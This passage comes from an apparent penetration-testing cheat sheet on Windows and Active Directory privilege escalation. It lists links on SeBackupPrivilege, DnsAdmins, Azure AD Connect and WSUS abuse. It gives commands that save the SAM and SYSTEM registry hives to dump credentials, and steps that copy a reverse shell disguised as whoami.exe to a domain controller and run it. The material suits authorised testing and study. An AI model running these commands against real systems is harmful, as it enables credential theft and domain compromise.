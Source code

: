 ```bash
# SeBackup/SeRestore
https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-sebackupprivilege/
https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md
# EASIER WAY, TRY ON DC AS WELL BEFORE USING THOSE MORE COMPLICATED METHODS TO DUMP NTDS.DIT
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
# SeBackupPrivilege -> best method is Exploiting Privilege on Domain Controller (Method 1) from 
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

# DnsAdmins
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise
# To avoid crashing DNS service, check Ippsec video 
https://youtu.be/8KJebvmd1Fk?t=3163

# Azure Admins / Azure AD Sync/Connect
https://blog.xpnsec.com/azuread-connect-for-redteam/
https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/
https://github.com/fox-it/adconnectdump
```
{% endcode %}

### WSUS

{% code overflow="wrap" fullWidth="true" %}
```sh
# Check prerequisites here https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#wsus
https://medium.com/@iamkumarraj/a-deep-dive-into-wsus-security-risks-90578c89ddd9
https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/wsus
https://labs.nettitude.com/blog/introducing-sharpwsus/
https://github.com/nettitude/SharpWSUS
```
{% endcode %}

## Exploiting the DC

{% code overflow="wrap" %}
```bash
# FIND THE HOSTNAME
nslookup
> set type=all
> _ldap._tcp.dc._msdcs.sandbox.local # hostname --> first word of the line with IP
> exit

# OPEN A NEW SESSION AGAINST A REMOTE HOST
PS > $dcsess = New-PSSession -Computer $HOSTNAME
# Execute ipconfig for example to check we can execute commands
PS > Invoke-Command -Session $dcsess -ScriptBlock {ipconfig} 
# Transfer the embedded revshell (whoami.exe) to the DC
PS > Copy-Item "C:\Users\Public\whoami.exe" -Destination "C:\Users\Public\" -ToSession $dcsess
# Execute the revshell
PS > Invoke-Command -Session $dcsess -ScriptBlock {C:\Users\Public\whoami.exe}
```
{% endcode %}
